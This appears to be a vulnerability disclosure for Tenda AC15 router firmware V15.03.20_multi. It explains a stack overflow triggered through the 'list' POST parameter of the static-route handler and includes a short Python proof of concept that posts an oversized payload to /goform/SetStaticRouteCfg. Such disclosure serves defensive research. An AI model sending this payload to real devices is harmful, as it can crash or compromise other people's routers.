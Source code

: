 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `v5` variable receives the `list` parameter from a POST request and is later assigned to function `sub_79180`. 

![image-20240314163102289](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314163102289.png)

In the `sub_79180` function, the `a2` (the value of `list`) is passed to `v16` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `v11, v10, v9, s1`, it will cause a stack overflow.

![image-20240314163714021](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314163714021.png)

![image-20240314163744934](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314163744934.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314163032951](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314163032951.png)